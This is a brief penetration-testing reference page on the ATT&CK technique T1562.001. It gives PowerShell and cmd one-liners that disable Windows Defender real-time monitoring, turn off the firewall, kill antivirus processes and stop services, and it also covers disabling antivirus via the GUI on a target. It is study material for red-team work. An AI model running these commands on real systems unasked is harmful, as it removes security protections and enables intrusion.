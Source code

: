 ```yaml
---
description: MITRE ATT&CK, Defense Evasion, Sub-technique T1562.001
---
```


# Disable or Modify Tools

### Methods

```powershell
# Disable real-time monitoring for Windows Defender
Set-MpPreference -DisableRealtimeMonitoring $true

# Disable Windows firewall
netsh advfirewall set allprofiles state off

# Manually disable antivirus 
taskkill /F /IM avprocess.exe

# Stop an antivirus service
net stop "$service_name"

# Disable a Windows service
sc config "service name" start= disabled
```

#### Disable Antivirus via the GUI

Non-administrative users are sometimes able to disable or create an exception for the antivirus running on the host via the GUI. If the target has one of these then you can either right click the icon in the task bar and disable it or manually open the GUI and disable it in settings.
